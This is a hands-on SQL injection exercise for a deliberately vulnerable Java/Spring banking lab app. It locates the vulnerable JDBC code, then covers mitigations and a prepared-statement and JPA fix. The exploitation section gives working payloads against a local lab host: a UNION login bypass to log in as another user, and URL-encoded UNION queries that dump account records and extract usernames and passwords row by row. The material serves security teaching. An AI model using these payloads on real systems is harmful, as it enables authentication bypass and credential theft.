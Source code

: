 # Exercise 3 - SQL injection

Exercise to help you understand SQL injection and its mitigation

## Setup and Start Applications

## Setup and Start Applications

1. check out exercise3 
   * choose branch 'exercise3' in the 'VCS -> Git -> Branches' menu within IntelliJ
1. start the v-bank-app in debug mode
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
\
(the attacker application is not needed in this exercise)   

## Look for SQLi vulnerabilities
Hints:
* In java classes where database operations are carried out; in such classes an instance of the _javax.sql.DataSource_ is injected:
```
    @Autowired
    private DataSource dataSource;
```
  * Please note that this is not an universal property of code vulnerable to SQLi, it only stands for classes in our application that is based on Java (_Datasource_ class) and Spring (_@Autowire_ annotation). 
    Yet, in java the direct use the the JDBC api, such as the _DataSource_ class above is a good indicator of possible SQLi injection. 
* Where SQL is concatenated in the code before passing it onto the JDBC (Java DataBase Connectivity) api.
`connection.createStatement().executeQuery("SELECT * FROM ACCOUNT ACC WHERE ACC.USERNAME  = '" + userName + "'")`

Present vulnerabilities:
* In the *JDBCUserDetailsService* class that loads the UserDetails upon authentication
* In the *JDBCAccountService* class that is an implementation of the *AccountService* coded against the JDBC API directly

## Exploit to understand how SQLi works
* The SQL in the JDBCUserDetailsService class is `"SELECT USERNAME, PASSWORD FROM USER U WHERE U.USERNAME = '" + uname + "'"`.
  This should be tweaked so to return USERNAME, PASSWORD pair with a known password:
`SELECT USERNAME, PASSWORD FROM USER U WHERE U.USERNAME = '' AND SELECT 'bob','password' --'`
using below input on login page:
  * username: ' UNION SELECT 'bob' AS USERNAME,'x' AS PASSWORD --
  * password: x
  This makes the code return a UserDetails object with the username (bob) and password (x) values set in the injected SQL snippet.
  Exploiting this SQLi vulnerability in the authentication component Alice could easily log in as Bob.
* The transaction history page is also vulnerable to SQLi 
  * http://vbank.127.0.0.1.xip.io:8080/history?accountNo=ACCOUNT_NO and the ACCOUNT_NO parameter can be used for injection 
  * By requesting http://vbank.127.0.0.1.xip.io:8080/history?accountNo=%27%20UNION%20SELECT%20%271%27,%272%27,%273%27,%274%27,%275%27,%276%27,%277%27%20--
    \
    you can see the the injected SQL query has to return 7 columns, of which 6 is displayed and the 7th must be a boolean (0 or 1 in SQL), so you cannot use it to exfiltrate.
  * With the below link you can exfiltrate all account details from the e-bank:
    * http://vbank.127.0.0.1.xip.io:8080/history?accountNo=%27%20UNION%20SELECT%20%271%27,%20ACCOUNT_ID,%20USERNAME,%20BALANCE,%20CURRENCY,%20%27X%27,%20%270%27%20%20FROM%20ACCOUNT%20--
    * it merges the result of the "SELECT 1, ACCOUNT_ID, USERNAME, BALANCE, CURRENCY, 'X', 0 FROM ACCOUNT" query with the transaction history query and displays them
* Furthermore, the home page is calling a REST service at http://vbank.127.0.0.1.xip.io:8080/api/v1/account/ACCOUNT_NO where ACCOUNT_NO URL fragment is taken as the parameter of the SQL query selecting user details. This parameter is SQL injectable (due to *JDBCAccountService* class). 
  * we check if we can do UNION select on this parameter, injecting 4 additional result columns with an UNION injection into the original query: > http://vbank.127.0.0.1.xip.io:8080/api/v1/account/' UNION SELECT '1', '2','3','4' -- 
  * as this works we can use it to exfiltrate user credentials: > http://vbank.127.0.0.1.xip.io:8080/api/v1/account/' UNION SELECT USERNAME, PASSWORD, '3', '4' FROM USER --
  * since it returns only one row we have to iterate over the USER table: http://vbank.127.0.0.1.xip.io:8080/api/v1/account/' UNION SELECT USERNAME, PASSWORD,'3','4' FROM (SELECT ROWNUM() as ROW_NUM, USERNAME, PASSWORD FROM USER) WHERE ROW_NUM=1 --
  * increment ROW_NUM till it reaches the end of the USER table.

## Mitigations
* use a parameterized interface / API to the database 
  * prepared statements; a parameterized API escapes all parameters when building the SQL query in the lower layers
  * use an ORM (object-relational-mapping) tool for database operations (JPA: Java Persistence API) this will use prepared statements in the background and make sure your data is escaped before passing it on
* validate user input with strict enough rules so that a value with SQL injection can not be valid and is rejected on validation
* SQL escape you data explicitly if you cannot use a parameterized API (prepared statements or an ORM tool)
  * you better never had to do it.

## Fix
1. Replace standard JDBC statements with prepared statements in *JDBCUserDetailsService* and *JDBCAccountService* 
For example:
```
public class JDBCAccountService implements AccountService {
   ...
   public List<AccountDetails> getAccountDetailsForUser(String userName) {
       ...
            PreparedStatement preparedStatement = connection.prepareStatement("SELECT * FROM ACCOUNT ACC WHERE ACC.USERNAME  = ?");
            preparedStatement.setString(1, userName);
            ResultSet resultSet = preparedStatement.executeQuery();
            ...
```
2. Write a JPA based implementation for AccountService 
For example:
```
@Log
@Service
public class JPAAccountService implements AccountService {

    @Autowired
    private EntityManager entityManager;

    @Override
    @SneakyThrows
    public List<AccountDetails> getAccountDetailsForUser(String userName) {
        Query query = entityManager.createQuery("select ad from AccountDetails ad where ad.username = :uName");
        query.setParameter("uName", userName);
        return query.getResultList();
    }

    @Override
    @SneakyThrows
    public AccountDetails getAccountDetails(String accountNo) {
        return entityManager.find(AccountDetails.class, accountNo);
    }

    @Override
    @SneakyThrows
    @Transactional
    public boolean transfer(String fromAccountId, String toAccountId, BigDecimal amount, String currency, String note) {
        currency = currency.toUpperCase();
        AccountDetails toAccount = getAccountDetails(toAccountId);
        AccountDetails fromAccount = getAccountDetails(fromAccountId);
        //if both account exists we execute the transaction
        if (toAccount != null && fromAccount != null) {
            //update balance of fromAccount
            {
                BigDecimal newBalance = fromAccount.getBalance().subtract(amount);
                fromAccount.setBalance(newBalance);
            }
            //update balance of toAccount
            {
                BigDecimal newBalance = toAccount.getBalance().add(amount);
                toAccount.setBalance(newBalance);
            }
            // create transaction record
            {
                Transaction transaction = new Transaction();
                transaction.setFromAccountNo(fromAccountId);
                transaction.setToAccountNo(toAccountId);
                transaction.setAmount(amount);
                transaction.setCurrency(currency);
                transaction.setNote(note);
                transaction.setExecuted(true);
                entityManager.persist(transaction);
            }
            //
            entityManager.flush();
            return true;
        } else {
            // create transaction record
//            well, let's support only transactions between local accounts
            return false;
        }
    }

    @Override
    @SneakyThrows
    public List<Transaction> getTransactionHistory(String accountNo) {
        return entityManager.createQuery("select t from Transaction t where t.fromAccountNo = :accountNo or t.toAccountNo = :accountNo")
                .setParameter("accountNo", accountNo).getResultList();
    }
}
```

You may see the solution in the __exercise3-solution__ branch at https://github.com/vargadan/v-bank/tree/exercise3-solution

The relevant changes are:
* SQL queries executed with prepared statements in:
  * the JDBCAccountService class in file *JDBCAccountService.java*
  * the JDBCUserDetailsService class in file *JDBCUserDetailsService.java*
* A new Java Persistence API (JPA which is the standard Java Object-Relational-Mapping tool) based implementation of the AccountService interface.
  * JPAAccountService class in file *JPAAccountService.java*
  * it should replace _JDBCAccountService_ as the default implementation of _AccountService_

You can finde more information on SQL injection prevention at:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.md